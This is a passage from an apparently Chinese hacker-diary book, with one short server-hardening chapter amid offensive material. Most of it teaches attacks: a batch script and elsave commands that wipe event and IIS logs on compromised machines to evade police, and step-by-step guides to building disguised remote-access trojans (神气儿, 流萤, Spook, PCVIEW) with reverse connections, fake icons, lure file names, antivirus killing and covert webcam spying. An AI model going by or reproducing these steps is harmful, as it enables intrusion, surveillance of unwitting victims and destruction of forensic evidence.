下面命令是清除肉鸡所有日志，禁止一些危险的服务，并修改肉鸡的Terminal Service留条后路。

```
@regedit /s patch.dll
@net stop w3svc
@net stop eventlog
@del c:\winnt\system32\logfiles\w3svc1\*.* /f /q
@del c:\winnt\system32\logfiles\w3svc2\*.* /f /q
@del c:\winnt\system32\config\*.event /f /q
@del c:\winnt\system32\dtclog\*.* /f /q
@del c:\winnt\*.txt /f /q
@del c:\winnt\*.log /f /q
@net start w3svc
@net start eventlog
@rem [删除日志]

@net stop lanmanserver /y
@net stop Schedule /y
@net stop RemoteRegistry /y
@del patch.dll
```

```
@echo The server has been patched,Have fun.
@del patch.bat
@REM [禁止一些危险的服务。]
```

Windows 2000的日志文件通常有应用程序日志、安全日志、系统日志、SMTP服务器日志、DNS服务器日志、FTP日志、WWW日志等等，可能会根据服务器所开启的服务不同而有所不同。还有一些网络管理软件的日志，说到这里，记得新浪的网管软件是自己开发的，如果不了解这个，可能会留下更多的记录。

这次只谈清除FTP、IIS应用程序日志、SMTP服务器日志、系统日志这些一般日志的命令行下的删除方法。

## 日记四十：擦擦PP

这几天，有个网吧的网管传授了我几个人侵手法。一说到网管，也许很多人都不信，认为网管会什么啊！其实这个观点就大错特错了。不是所有的网管都那么菜的啊！很多的技术网管还是非常有水平的。我抽空入侵了几个小服务器。这里就说下我在入侵之后如何擦PP的。因为我这个人很懒，所以把整个过程记下来，否则以后我自己又不会了。

首先如果我们不擦干净入侵PP，那么警察很容易找上门来，为了不必要的麻烦，我们还是要把入侵后的日志给清除了啊！我的IP是222.178.152.100（当然是假设了），先找下被入侵的服务器的日志来看一看，有没有记录我的IP。发现果然有我的IP。好，下一步当然要做的就是来清除了，要不然影响可不好。科技铸造未来，黑客工具推动黑客进步！不要从心里瞧不起网络上的脚本小子，正是有很多的脚本小子把时间都节省出来了，所以他们才能在其他方面取得很大的进步。所以对于清除日志来说，如果有个好的工具，那将对你的入侵之后的作案现场清扫工作提供了极大的便利。

通过这么多年的学习（其实也就1个多月了，但是因为上古记年法和别的记年不一样，所以就是好多年了啊），对这一点我是深有领悟的。

elsave是小榕开发的一个方便的工具，又是一个傻瓜软件，今天我第一次用，看了看说明，就会用了！

- 1. 在你入侵结束的时候先把elsave上传到对方硬盘上，方法就很多了。
- 2. 用 `net time \\对方IP`，看对方的时间。比如是8：08分。
- 3. 用 `at \\对方IP 8:18 c:\elsave.exe -s \\127.0.0.1 -l "security" -C`，这里假设elsave在对方的C盘下。
- 4. 如果没有什么问题的话，在对方8：18分的时候安全日志就自动被清除了。
- 5. 如果想清除别的日志，命令基本和上述的一样，想清除应用程序日志就把security改成application，想清除安全日志就换成system吧！

> 在我小行友情提醒：入侵后擦除日志是不能缺少的，记住啊！很多成功的入侵都是因为事后未有效地清除日志而最终东窗事发的，所以不要忘了擦啊！

## 日记四十一：如何抵御黑客入侵

回羽扬在 星期四 晴

光阴似箭，转眼间，我担任这个模特公司的网管员，负责服务器管理这个工作已经有半年了。作为一个黑客兼管理员，我想说一句话，那就是“世界上没有绝对安全的系统。我们只可以尽量避免被入侵，减少损失；但不能阻止他们入侵。”一般对网络服务器的恶意网络行为包括两个方面：一是恶意的攻击行为，如拒绝服务攻击、网络病毒等等；这些行为旨在消耗服务器资源，影响服务器的正常运作，甚至服务器所在网络的瘫痪。如前段时间逢蒙的入侵，虽然最终以失败告终，但是若要成功，导致的损失将不可估量！另外一个就是恶意的入侵行为，这种行为更是会导致服务器敏感信息泄露，入侵者更是可以为所欲为，肆意破坏服务器。所以我们要保证网络服务器的安全，可以说就是尽量减少网络服务器受这两种行为的影响。

半年了，大战小战自己经历了千千万万，作为一个曾经入侵过别人服务器，现在反过来负责维护安全、担当服务器管理员的我来说，总结了一大堆的经验。应不住大家的邀请，就全部贡献给大家吧！

### （一）采用NTFS文件系统格式

大家都知道，我们通常采用的文件系统是FAT或者FAT32，NTFS是微软Windows NT内核的系列操作系统支持的、一个特别为网络和磁盘配额、文件加密等管理安全特性设计的磁盘格式。NTFS文件系统里你可以为任何一个磁盘分区单独设置访问权限。把你自己的敏感信息和服务信息分别放在不同的磁盘分区，这样即使黑客通过某些方法获得你的服务文件所在磁盘分区的访问权限，还需要想方设法突破系统的安全设置，才能进一步访问到保存在其他磁盘上的敏感信息。

### （二）做好系统备份

常言道，“有备无患”，虽然谁都不希望系统突然遭到破坏，但是不怕一万，就怕万一，做好服务器系统备份，万一遭破坏的时候也可及时恢复。后羽虽然被公认为天下第一的黑客，但他的备份工作依然没有忽视，因为“不怕一万，就怕万一啊”！

### （三）关闭不必要的服务，只开该开的端口

关闭那些不必要开的服务，做好本地管理和组管理。Windows系统有很多默认的服务其实没必要开，甚至可以说是危险的，比如：默认的共享远程注册表访问（Remote Registry Service），系统很多敏感的信息都是写在注册表里的，如pcAnywhere的加密密码等。关闭那些不必要的端口。一些看似不必要的端口，却可以向黑客透露许多操作系统的敏感信息，如Windows 2000 Server默认开启的IIS服务就告诉对方你的操作系统是Windows 2000。69端口告诉黑客你的操作系统极有可能是Linux或者Unix系统，因为69是这些操作系统下默认的TFTP服务使用的端口。对端口的进一步访问，还可以返回该服务器上软件及其版本的一些信息，这些对黑客的入侵都提供了很大的帮助。此外，开启的端口更有可能成为黑客进入服务器的门户。总之，做好TCP/IP端口过滤不但有助于防止黑客入侵，而且对防止病毒也有一定的帮助。

### （四）软件防火墙、杀毒软件

虽然我们已经有了一套硬件的防御系统，但是“保镖”多几个也不是坏事。

### （五）开启你的事件日志

虽然开启日志服务对阻止黑客的入侵并没有直接的作用，但是通过它记录黑客的行踪，我们可以分析入侵者在我们的系统上到底做过什么手脚，给我们的系统到底造成了哪些破坏及隐患，黑客到底在我们的系统上留了什么样的后门，我们的服务器到底还存在哪些安全漏洞等等。如果你是高手的话，你还可以设置蜜罐，等待黑客来入侵，在他入侵的时候把他逮个正着。

### （六）构建好硬件安全防御系统

选用一套好的安全系统模型。一套完善的安全模型应该包括以下一些必要的组件：防火墙、入侵检测系统、路由系统等。防火墙在安全系统中扮演一个保安的角色，可以很大程度上保证来自网络的非法访问以及数据流量攻击，如拒绝服务攻击等；入侵检测系统则是扮演一个监视器的角色，监视你的服务器出入口，非常智能地过滤掉那些带有入侵和攻击性质的访问。

## （七）选用英文的操作系统

要知道，Windows毕竟是美国微软的东西，而微软的东西一向都是以Bug和Patch多而著称，中文版的Bug远远要比英文版多，而中文版的补丁向来是比英文版出得晚，也就是说，如果你的服务器上装的是中文版的Windows系统，微软漏洞公布之后你还需要等上一段时间才能打好补丁，也许黑客、病毒就利用这段时间入侵了你的系统。

## 黑客日记

## 第八章：木马杀鸟连连看

| 章节 | 页码 |
|---|---|
| 日记四十二：引言 | 103 |
| 日记四十三：神气儿 | 103 |
| 日记四十四：流萤V2.3正式版 | 108 |
| 日记四十五：远程控制Spook6.1版 | 112 |
| 日记四十六：PCVIEW 2006 | 114 |
| 日记四十七：超级进口小马C.I.A | 119 |
| 日记四十八：随意门2006 | 126 |
| 日记四十九：SlimFTPd微型FTP木马 | 130 |
| 日记五十：粉色信鸽2.5 | 132 |
| 日记五十一：语音视频任我行 | 137 |
| 日记五十二：最新灰鸽子破解版 | 140 |
| 日记五十三：QQ远程控制1.0 | 144 |
| 日记五十四：冰河2005[新年版] | 146 |
| 日记五十五：管理型反弹型木马——NCPH远程控制 | 149 |
| 日记五十六：木马学习总结 | 158 |

## 日记四十三：引言

2006年3月31日 天是黑的 心是激动的

光阴似箭，转眼间过了N个世纪，逢蒙昏昏醒醒不知道睡了多久。突然有一天，他的服务器第121次被入侵了。“NND”，逢蒙第一次冒出句粗话：“怎么会这样啊？”然后自己就查啊查，最后才发现原来是自己不小心中了一匹马，据说还是头木马。都怪自己不小心，见到个PLMM图标的文件毫不犹豫地就去打开看看，本以为能看到一个PLMM的PP呢！结果却……

更叫自己气愤的是给自己下马的竟然是个刚刚学会上网不久的小菜，而据可靠情报这个小菜才学会上网不到7天。一个才会上网不到7天的小菜，为什么能轻而易举地使自己中马？逢蒙通过各种社会关系最后得知了一个真理，原来起点既不要紧，关键是你要找到正确的学习方法。这个给自己下马的小菜之所以能在7天之内技术突飞猛进，是因为他看了《黑客手册2005合订本》。乖乖，不得了啊！原来出来了这本学习黑客技术的好书，都怪自己在网上整天找这个找那个学习，连这么好的书都不知道。这里逢蒙要告诉大家不要整天问这个问那个，浪费时间还浪费感情。其实最好的老师就是杂志加搜索引擎。这不逢蒙刚刚订购了一年的《黑客手册》，准备彻底地恶补一下。

在哪里跌倒就在哪里爬起，不知道哪位名人曾经讲过。所以逢蒙特意地闭关苦学了数天，苦心钻研了木马。这木马怎么就能钻过防护严密的防火墙以及杀毒软件呢？也许我们聪明的读者也和逢蒙一样的想法。下面就是逢蒙的学习日记，我们一起来看看已经过了N个世纪（喂，现在已经是公元2006年了！）的逢蒙的日记记的都是什么！

## 日记四十三：神气儿

2006年4月1日 神明高照 心情好得没法说

你说神气不神气？（全体小菜：我们都说它神气！）这里的神气不是形容词，而是一款马中的极品。神气儿是一匹上好的“黑马”，近几年已经逐渐进入了玩黑者的视线，无论是小菜还是老鸟都基本熟悉了这匹马王。目前它的最新版本是2.2。作为一款远程控制木马，它十分优秀，已经被称为“群马之王”。它的显著特征就是：无端口，无服务，插入进程，服务端只有85K。怎么样？是不是心动了？心动不如行动。下面我们零距离看看“神气儿”究竟神气在哪里？

### 一、配置服务端

首先从网上下载最新版的神气儿，但是我发现作为神气的出处第八军团，里面竟然没有神气儿的最新版本2.2正式版。大概是正式版作者是用来卖的，所以轻易地网上找不到！不过现在这个社会，是破解满天飞的时代，今天你才发布了正式版，明天那边已经出来了破解版了！不用正式的，用破解的一样好使！找到个神气儿2.2的修正版。我们就以这个为例介绍。解压缩后有两个文件，一个就是那个大大的“神”，就是我们用到的软件神气儿。另一个是配置文件，打开“神”后，我们来配置被控端，点击“工具－生成被控端”，如图43-1。


DNS域名集处填写我们的域名，如果你没有域名可以去 www.meibu.com 申请一个。进去后点“动态域名”开始申请。申请十分简单，进去后找动态域名，然后注册，填写一些信息，提交，就会注册成功！这里就不详细介绍了。看到这里，有的朋友不明白，我们是在讲神气，为什么非要写这个DNS域名呢？因为我们很多的读者都是在网吧上网，而网吧和学校的机房是一样的，都是属于内网。而内网是做不成什么大事的。而一些个人电脑是属于外网的。我们知道内网是没有什么利用价值的。要抓肉鸡，我们都抓的是外网的机器。而作为内网要想控制住外网的机器，通常是要映射端口的。一提起映射端口，很多读者都会觉得晕，因为觉得麻烦，觉得难。而神气儿这个软件完全可以通过申请动态域名来搞定这个。


这里我已经申请好了一个动态域名（图43-2）。指定IP集处，点右边的，选择你当前的IP。上线端口大家可以自己设定，不过我习惯用默认的。监听端口处的“被控端自动打开端口”建议不要勾上，这主要是方便我们主动连接肉鸡用的，填写完毕后我们进入安装栏（图43-3）。安装名称处和模仿文件名称我们可以填写一个比较接近系统文件的名称，呵呵，迷惑管理员嘛，描述和组名大家就看自己的喜好来填了，可以写为“一个馒头引发的血案背后的真实故事”、“高官讲述内幕”等等有吸引力的字眼。连接密码写个复杂点的密码。当然也可以不写啊！


然后我们来到图标处，神气儿自带的只有一个图标，就是那个神字。不过很人性化的，我们可以在生成被控端后通过图标修改工具自己换一个图标，修改一下，来迷惑目标。这里我选择了一张美女图片，因为一般的人对美女没什么免疫力（图43-4）。

最后我们点击“生成被控端”，就会在当前目录下生成一个 soul.exe 文件（图43-5）。

这就是我们的马了，大家就用各种方法牵出去遛遛吧，至于你是威逼还是色诱，这里就不多说了。八仙过海，各显神通吧！


图43-4

### 二、配置客户端

其实客户端不需要什么配置，我们唯一要做的就是注册一个DNS域名，然后把DNS域名转向到本机的IP。我们到每步（www.meibu.com）下载一个客户端，安装后运行，填写我们的用户名和密码，就是在刚才你申请的。选择自己所在区域，点登录就可以了，登录成功后，我们可以查看登录日志，看是否成功（图43-6）。

我们还可以到“生成被控端”那里，点击右边的标志，就可以查看IP是否解析成功（图43-7），显示成功的标志！


图43-5


图43-6


图43-7

### 三、远程控制操作

本地的客户端更新IP后，就可以进行被控端程序的连接了。由于神气儿支持“正向连接”和“反弹连接”两种不同的方式，所以需要针对不同的方式进行连接。使用正向连接的用户，可以通过客户端菜单中的“主机”→“增加连接主机”来添加肉鸡的IP和端口来进行连接。但事实表明，这个已经很难抓到肉鸡了。因为现在几乎所有的机器都安装了防火墙和杀毒软件。所以我们不推荐使用这个，推荐使用“反弹连接”。因为选择了“反弹连接”，那我们就什么也不用做，肉鸡会自动上线。事实表明“反弹连接”效果是最好的。

“反弹连接”解决了传统的远程控制软件不能访问安装有防火墙和控制局域网内部的远程计算机的难题。反弹端口型软件的原理是：客户端首先登录到用于IP地址中转的FTP服务器或域名，将客户端当前的IP地址写入到主页空间上面的一个文件里，并打开端口监听，等待服务端的连接；服务端定期用FTP协议读取这个文件的内容，当发现是客户端让自己开始连接时，就主动连接，如此就可以完成连接工作。因为在网络中可以访问到局域网里通过NAT代理上网的电脑，并且可以穿过防火墙。下面我们就来进行远程操作。

#### 1. 浏览

任意选择一台上线的计算机，一级级打开后就可以浏览对方硬盘上所有文件了。


图43-8

选中目录或者文件后，我们可以通过鼠标右键，方便地对远程系统中的文件进行管理，如打开、后台打开、复制、剪切、上传、下载、批量压缩、解压文件、属性等操作。在文件上传下载过程中，我们还可以通过主界面中的“任务”按钮来查看传输过程，并对其进行控制（图43-8）、（图43-9）。除了基本的文件管理外，我们还可以通过“搜索”菜单对指定文件进行查找。


图43-9

#### 2. 进程

选中远程计算机后，我们来到进程这一栏，点击刷新，远程计算机上的进程就都显示出来了，这里我们可以对其进程进行“终止”“设置”等操作（图43-10）。看到什么不顺眼的进程可以终止它哦，比如杀毒软件，呵呵！


图43-10

#### 3. 任务

这里的功能其他的地方都有，这里主要是批量执行一些任务。点击刷新，远程计算机的服务就出现在我们的眼前，我们可以对其进行远程操作，就好比在自己的计算机上一样方便。这里我们就以一个执行命令来举例说明。轻轻一点，远程的桌面就出来了命令窗口了（图43-11）！


#### 4. 屏幕和视频

如今的远程控制，当然是少不了屏幕和视频啦，点击“屏幕”，然后点“开始观看”（如果你不想操纵对方屏幕的话，记得把“抓取鼠标”前面的勾勾去掉哦），这样我们就可以看见对方在做什么了（图43-12）。我晕哦！对方也在用神气儿啊！哈哈，这就对了，因为我抓的是我邻座那小子上线的图，而他正在配合我抓图呢！

### 四、清除神气儿

常在河边走，没有不湿鞋的。如果不小心中了神气儿怎么办呢？别急。除了常见的用杀毒软件清除外，一样可以手动清除。而配置神气服务端的时候，很多人都习惯将神气儿的DLL文件插入到“explorer.exe”进程中（图43-13），所以我们在清除时要先结束“explorer.exe”进程，然后再把 C:\Windows\system32 目录中 spoolsv.exe 和 soul.dll 文件删除，再把服务端删除即可。在CMD下打 `sc delete 服务名`，即可删除服务。


还可以用神气儿杀神气儿。因为神气儿本身自带了“卸载被控端”的功能，如果你成功地获得了肉鸡，而肉鸡的主人是位可爱的MM。你想清除掉神气儿，但MM还不会清除，你就要多帮忙了！中了该木马，可以用客户端来卸载服务器端。点击“文件浏览”，在要卸载的电脑上点右键，选择“卸载被控端”，被控电脑重启后，木马就被删除了。

# 第八章：木马菜鸟连连看

## 日记四十四：流萤V2.3正式版

2006年4月2日 春风和煦 心情舒畅

引子：流萤大家都不陌生，但最近新推出（2006年4月10日）的流萤V2.3正式版也许你还没来得及尝试，下面我们就一起来看看这匹优秀的小马。作为一款优秀的国产反弹型远程控制软件，它生成的服务端仅34.5K的大小，运行稳定，控制端可以同时对几个服务端进行操作，但体积小不意味着功能的缺失。俗话说得好，浓缩的都是精华，流萤虽小，但是五脏俱全！流萤V2.3正式版增加了DLL注入、Rootkit隐藏技术，开放了所有的资源文件（Date文件夹下所有文件用UPX加壳，大家可以自行脱壳加壳）；功能上再次改进了屏幕传输速度，增加了选择压缩传送功能，也对原有的一些花哨功能进行了大量删减，仅保留主要的功能。该版本在通讯协议上按标准HTTP协议传输，因此完全不兼容前一个版本，但也提供了一个比较有趣的功能：流萤控制端打开后可以直接成为一个HTTP服务器，Date文件夹为其根目录，输入 http://127.0.0.1:2000/index.htm 可直接访问。下面我们就来看下具体如何使用流萤V2.3正式版。

### 一、配置服务端

在其官方站点下载流萤V2.3正式版，解压运行，打开可以看到一个非常漂亮的画面，那个飞舞的星星就寓意着流萤吧！打开界面（图44-1）。接下来进入主界面，我们开始进行配置（图44-2）。在无上线的主机的情况下，有几个功能模块是暗的，这个需要有上线的主机时才会显示出来。


图44-1


图44-2

其默认的监听端口是2000，连接密码是wsdgs。我们可以进行更改。点击“配置设置”功能模块，在里面就可以轻松更改设置了！然后点“更改”即可（图44-3）！

接下来我们进一步来配置。点击“生成被控端”功能模块，弹出一个小的设置界面，不要看这个界面小，我们主要的设置过程都离不开它（图44-4）。开始第一项“配置服务端”。共有5个需要填写的地方，但可以选填的啊！~


图44-3


图44-4

#### DNS域名或网址：

- 1. 填入控制端IP地址（固定IP）或者是DNS域名。（注释：DNS域名是指绑定在某个主机上的域名，不是类似 *.yeah.net 的跳转域名。这点很重要！检测办法是运行“ping DNS域名”，如果出现的IP是您控制端的IP就是正确的。动态IP用户（如ADSL用户）可注册如 http://www.3322.org/ 的免费动态域名。）
- 2. 新功能：网页更新控制端IP。如果需要用网址来更新控制端的IP，那么此处应该填写存放IP地址的文件的URL地址，例如我的控制端IP信息为218.88.88.88，那么将这个IP存为文本文档，上传到服务器上，可以通过 http://www.xxx.com/ip.txt 访问，那这里就填入 http://www.xxx.com/ip.txt 即可。

#### 资源获取地址：

这个如果菜鸟怕操作不当，可以不填写。资源获取地址是服务端运行后下载服务程序（ExeServer）的地址，可将流萤目录\date\ExeServer.dat 文件上传到您的空间里，设置HTTP形式的下载地址，服务端上线后就用此地址下载服务程序。当然不需要此功能可留空不填，则默认从控制端的 data\ExeServer.dat 传输此服务程序。

#### 反弹连接端口：

默认为2000，当然，为了迷惑对方，你也可以修改下，比如4000（QQ客户端的默认端口）等都是可以的！

#### 辨别密码：

就是你要连接这台主机的密码，你一定要记住，否则错误的密码主机就不能上线了！到时候就白忙活了！


图44-5

#### 设置上线图标：

软件提供了6个图标，其中5个都是QQ头像，可以自定义选择你喜欢的（图44-5）。

#### 插入进程：

这个软件可供选择的是 iexplore.exe 和 AutoInject，我们一般选择 iexplore.exe 即可。

#### 生成服务端：

上述内容填写完毕后点此生成服务端程序，选择一下保存的路径和名称（图44-6）。给服务端取个名字就可以保存下来了！这个时候只要我们把服务端发给你的目标，只要他点击，那么我们这边就可以控制他了！！


图44-6

### 二、远程控制

这里我们拿本机来给大家讲解下当肉鸡上线后我们的远程操作。要是有主机运行了你的服务端后，你就可以监听主机，上线后就出现了可以控制的主机的上线IP等信息（图44-7）。


图44-7

现在我们就可以对这台机器进行操作了，就像控制我们自己的机器那么方便！！

右键点击上线主机，我们可以对其进行断开连接、更改图标及卸载服务端的操作（图44-8）。


图44-8

我们可以对其进行远程关机、远程卸载。点下“远程关机”、远程卸载模块就可以了（图44-9）、（图44-10）。


图44-9


图44-10


图44-11

此外还有个“接入控制”，这个就是具体对其主机进行操作了（图44-11）。可以对远程主机的文件、注册表等随便玩！如果想搞恶作剧，看下我们连接上的远程主机在玩什么，我们和他开个玩笑。点击“屏幕传输”就OK了。结合“接入控制”，搞恶作剧没商量啊！！（图44-12）。


### 三、配置时的IP文件更新

#### IP文件更新

简介：此功能是让服务端从网页文件中读取控制端的IP地址以反弹连接之用。本界面功能是将本机IP列表中的IP地址用FTP上传形式更新到网页文件中。也可以手动更新IP文件（图44-13）。


- 1. FTP服务器：存放IP文件的FTP服务器IP或域名
- 2. 端口：存放IP文件的FTP服务端口，一般为“21”
- 3. FTP用户名：存放IP文件的FTP服务器用户名
- 4. 密码：存放IP文件的FTP服务器用户名对应之密码
- 5. 存放IP文件：存放IP文件的FTP服务器上的IP文件的相对路径
- 6. IP文件URL：IP文件的HTTP访问地址，如果需要使用IP文件来更新控制端IP，那么第一节的DNS域名或网址中应填写与此相同的内容。
- 7. 本机IP列表：用于更新到IP文件中的IP地址，可选择本机的IP，也可手动填写。
- 8. 更新：将本机IP列表中选择或手动填写的IP地址更新到FTP设置中的IP文件里。

> 几点注意：  
> 1、带参数 /u 运行服务端就可以完全卸载，服务端安装在系统盘 C:\Program Files\firefly-remote 文件夹下。  
> 2、生成的服务端不支持263、yeah的域名解析。  
> 3、本版本完全不兼容以前版本。

## 上机四十五：远程控制 Spook 6.1 版

2006 年 4 月 3 日    多云 心情有些郁闷

黑站之前都需要先踩点，用木马前我们要先了解木马。作为一款远程控制木马，远程控制 Spook 6.1 版，它有什么优点？我们接下来一起看看！

### 一、基本功能

Spook 是一款反弹类型的比较优秀的远程控制软件。目前最新版本为 6.1。基本功能如下：

- 1. 远程文件操作：包括上传、下载、删除、改名、运行等。在上传和下载远程文件时可以断点传输。
- 2. 查看远程电脑的屏幕和视频，并可以保存为 BMP、JPG 文件。
- 3. 模拟执行远程 DOS 命令，并返回执行后的输出结果。
- 4. 可以根据 IP 地址、域名、HTTP 网页地址来反弹 IP 上线。

一些特点：

- 1. 程序经过作者多次升级和测试，软件各种操作已经基本很稳定了。
- 2. 服务端程序占用电脑 CPU 和内存少，即使在查看屏幕和文件传输过程中，CPU 的占用率也只是在 40% 以下，甚至更少。
- 3. 客户端即使在突然断电或拔下网线插头的情况下，5 分钟后服务端也会自动上线。
- 4. 程序所有操作只通过一个端口来完成，所以方便使用端口转发软件来转发数据。

### 二、使用过程

- 1. 首先运行程序，先来看看其主界面是什么样子的！（图45-1）。然后点击程序的“FTP 上线设置”选项！（图45-2）
- 2. FTP 上线设置，如（图45-3）（图45-4）填写下列各个选项，生成更新的 IP 文件，然后更新 IP 地址到空间，如果不能正确更新，可以配合其他 FTP 软件进行手动更新。更新 IP 地址到空间以后，用浏览器打开你的 IP 文件地址，看看是否能显示出你的 IP 地址！能正确显示，就表示成功了！配置程序的服务端时要注意：配置当中的“辅助目录”可以不必填写。增加辅助目录的原因是：现在一些杀毒软件经常监视系统目录的变化，如果在系统目录中安装，杀毒软件可能会有报警，而在其他目录安装则一般不会发生这种情况。如果填写“辅助目录”，请注意辅助目录必须是系统存在的目录，并且后面一定要加“\”号。以下本人的配置是：程序运行后，会在 c:\winnt\help\ 目录下生成程序的拷贝文件（图45-5）。

如果你没有 FTP 空间怎么办？告诉你，你可以去 http://www.3322.org 申请一个免费的域名，根据域名解析来进行上线。开始监听，设置监听端口和连接密码。注意这个连接密码一定不要忘记了，否则你就连接不上自己到手的肉鸡了啊（图45-6）！

### 三、远程控制

- 1、等待主机上线

当一切做好后，我们需要做的就是等待有肉鸡上线，当然前提是我们要先把生成的服务端发给目标主机，或通过各个办法使目标运行。（图45-7）

- 2、远程文件操作

点取在肉鸡列表里的任何一台远程主机，我们都可以对其进行远程操作了，就像操作自己机器硬盘里的文件一样方便，可以删除、新建，随便操作你所能操作的文件！

- 3、其他功能

此外，这款小马还有查看“远程电脑屏幕”和查看“远程电脑视频”的功能（图45-8），利用查看“远程电脑屏幕”的功能，你可以看到目标远在千里之外在做着什么。如果你想吓下他，可以动动他的桌面。比如你可以叫他桌面的 QQ 登录框莫名其妙地总是弹出来。而“远程电脑视频”功能，如果对方安装有视频装置的话，你可以悄悄地打开他的视频，要是 PLMM 的话，你还可以来个远距离与美女聊天啊！

没有 DOS 控制台的木马不是一匹好木马。还好，这款木马并没有叫大家失望，点击“模拟 MS-DOS 控制”我们可以远程操作，一些常见的命令都可以搞定。（图45-9）

### 四、注意事项

- 1. Spook.exe 为客户端程序；Server.exe 为服务端程序；Clear.exe 为清除程序。客户端程序在本地计算机上使用，可以发送控制命令，来控制安装了服务器端程序的远方电脑。服务器端程序（可以随意改名），在远程计算机上使用，用于安装在需要远程控制的电脑上面。
- 2. 使用之前，应当首先对程序的服务器端 [Server.exe] 进行配置。配置服务端程序时，建议拷贝一份再配置，这样是为了保留原服务端程序的完整性。
- 3. 建议使用域名来上线，这样效果更好。修改域名对应的 IP 为“11.22.33.44”时，服务端程序不访问网络，也不会上线，在对方电脑中潜伏。由于这种原因，所以域名上线比 HTTP 上线要效果好。
- 4. 客户端在突然断电或拔下网线插头的情况下，修改域名的对应 IP 为“44.33.22.11”，这样过 5、6 分钟以后再修改域名对应 IP 为你的互联网 IP，即可再次上线。这样做是为了解决意外断线所造成的不能反弹上线的情况。由于这种原因，所以域名上线比 HTTP 上线要效果好。
- 5. 操作过程中，请注意看客户端程序右下方的文件句柄，如果是“-1”，就可以进行下一步操作。否则请按照提示耐心等待一会，直到它变为“-1”后再进行操作。
- 6. 程序在 Windows 98 下添加注册表启动项来启动，在 Windows 2000 以上系统作为服务来启动！
- 7. 服务端程序的上线时间是间隔 60 秒自动上线一次。

## 日记四十六：PCVIEW 2006

PCVIEW 2006 是一款功能强大的远程控制软件，是一款典型的反弹型木马代表，采用反弹连接技术对客户机进行控制。在来看如何配置这个木马之前，我们要做的是先来仔细看看这匹木马都有什么特点。对待人我们要知根知底，对待木马也是一样，我们要先来了解下这匹木马脾气及特点，然后我们才能驾驭这匹木马！

### 一、特点

- 1. 用户只需要一个固定的 IP 地址、动态域名或者一台 FTP 服务器，即可在任何时间、任何地点使用 PCView 随心所欲地对客户机进行网络管理。
- 2. 内建动态域名解析程序，更可以让您省去安装动态域名客户端解析程序的麻烦，让您轻轻松松解析、轻轻松松上线。
- 3. 其自带的网络嗅探、协议嗅探、端口转发功能更是国内远程控制软件所罕见的。而其还带有视频监控、语音监控，更可以让你将计算机变成一台十足的“网络特警”。你可以在上班的时候，利用它查看家里的动静。当然这个对我们玩来说就没什么用了，如果我们控制了一台肉鸡，而肉鸡的主人是个 MM 的话，倒是可以利用这个功能来看 MM 在做什么！（小菜：你，你！！！）
- 4. PCView 相比于其他同类软件而言，其功能强大而体积却十分小巧，丝毫没有轻辄上几 M、重辄上百 M 的庞大体积，其体积在经过压缩后大小以 K 计算。而小巧的木马正是我们所追求的。
- 5. PCView 在传统的防火墙穿透技术上加以改良，使得其可以正常穿透大部分的防火墙，这样就为我们的木马作案提供了极其方便之门。
- 6. PCView 2006 采用内核级驱动技术，隐藏通讯进程和通讯端口，让您的通讯更惬意。
- 7. 其自带 SQL 数据库管理工具，可以执行 SQL 数据库命令、CMD 命令、导入数据库脚本，我们可以在千里之外控制肉鸡的数据库了！

看了这么多，相信各位都忍不住想试试了，这么好的木马把该做的都给做了，我们要做的就是如何配置，然后来抓肉鸡就行了，真是懒人有懒福。

### 二、配置木马服务端

网上相关的版本很多。不过黑客的精神就是自由、平等、共享。所以我也奉着这个精神，在网上找到了 PCVIEW 2006 免费版本。百度一搜就会出来很多的链接，真是感动（因为好多的木马都是搞收费的，偶尔不收费的还很难找到下载地址）。下载完后解压缩就可以使用了（图 46-1）。

可以看到锤子、扳子及红色火焰标志这三个可执行文件及其他两个相关文件、一个说明文档。也许眼尖的读者已经发现了，它和别的木马有个明显的区别，那就是不像其他的国产木马程序那样，将服务端程序的配置功能集中到客户端程序中去，而是专门通过一个程序来配置木马的服务端。这一点非常方便。

双击运行“PCVIEW 2006 服务端生成器”，可以看到其配置主界面。而软件作者十分地为小菜着想，在每个要填的地方都先写了文字提示大家。但是有一点是这个服务端生成器不知道作者什么原因，有几个字没有显示出来。比如第 2 行应该是“反向连接端口”，但软件上只能看到的是“反向连接端”。哈哈！（图46-2）。

从图中我们可以看到，服务端生成器分为“域名上线设置”和“FTP 上线设置”两个标签，在“域名上线设置”标签中就是用于服务端程序设置的。PCVIEW 2006 服务端程序的配置十分简单，我们只需要设置反弹连接所使用的域名，反弹连接的端口，以及服务器注解就可以了。服务端的连接除了使用解析域名外，还可以使用固定 IP 地址进行连接。

填上 IP 和端口，设置完成后，点击“生成服务端”按钮，就会弹出要保存的路径及文件名（图46-3）。

如果小菜们急急忙忙填不全信息就去点“生成服务端”的话，木马会严重抗议并弹出提示窗口，提示你没有写全（图46-4）。相反，如果都输入完毕并保存成功后，它会提示你已经成功（图46-5）。

接下来我们再看看另一种设置方法——“FTP 上线设置”。在配置窗口用户需要对网页文件所在的服务器地址、上传端口、用户名、密码等信息进行设置，设置完成后同样点击“生成服务端”按钮就能生成相应的服务端程序了！（图46-6）

### 三、远程控制操作

服务端程序配置成功后，我们就要使用我们的各个大法，叫我们的目标去运行这个服务端。而我们要做的就是打开我们的“PCView 2006 控制端”，来等待肉鸡上线。

打开“PCView 2006 控制端”。打开是缓慢的过程，因为控制端在边打开之时，边加载了我们本地机器的一些信息（图46-7）。不过画面还是蛮漂亮的啊！加载完毕进入了其主界面（图46-8）。

点击上面的第一个功能模块“上线设置”，此类远程木马主要是捉肉鸡，所以上线设置这一点很重要（图46-9）。

“PCView 2006 控制端”设计完全根据“PCVIEW 2006 服务端生成器”而制作。一个是给“域名上线设置”生成服务端用户设置的，一个是给用“FTP 上线设置”方式生成服务端设置的。我们先来看用第一种方式生成服务端。

首先设置监听端口，根据自己的习惯和需要来填写。然后点击“设定”，之后从主界面的提示栏中就可以看到端口打开的信息。这样后我们已经配置好的服务端就会在目标那边工作起来了！之后填写你的域名、用户名、密码等信息。软件本身默认的用户名是 pcviewrat，我们可以自己来更改啊！如果你自己没域名的话，可以去希网去申请。软件上给出了链接的地址。申请很简单，先是去申请自己的域名（图46-10），然后下载客户端，来个映射就可以了！这里就不详细地说了！和神气儿的操作大同小异！

